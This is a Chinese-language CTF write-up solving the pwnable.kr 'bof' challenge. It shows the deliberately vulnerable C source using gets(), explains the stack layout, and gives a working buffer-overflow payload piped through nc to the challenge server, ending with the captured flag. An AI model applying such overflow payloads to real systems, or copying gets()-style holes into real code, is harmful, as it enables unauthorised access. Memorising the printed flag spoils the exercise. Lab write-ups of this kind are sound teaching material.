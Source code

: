 ```yaml
---
title: 'pwnable.kr #bof'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-07-13 16:19:55
categories:
    - Writeups
	  - pwnable.kr
thumbnailImage: pwnablekr.jpg
keywords:
    - pwnable.kr
    - Toddler's Bottle
    - bof
tags:
    - Writeups
---
```

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?
<!-- more -->

題目有給C的原始碼：
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

唯一可控的只有輸入的`overflowme`，得想辦利用buffer overflow蓋掉`key`的值使得第八行的判斷能夠成立。

丟進IDA Pro看`func`的部分：
![ida](ida.png)

根據組合語言，我畫出了這張stack圖幫助我理解：
![stack](stack.png)

雖然`overflowme`只配置了32 bytes的空間，但使用了`gets()`使得輸入的長度沒有限制，`-0x2C`到`0x08`之間總共有52 bytes的空間，只要把這部分塞滿就可以進一步將`key`的位址`0x08`覆蓋成我們希望的值，payload建構如下（要注意是little endian）：
```sh
$ (python -c 'print "a" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```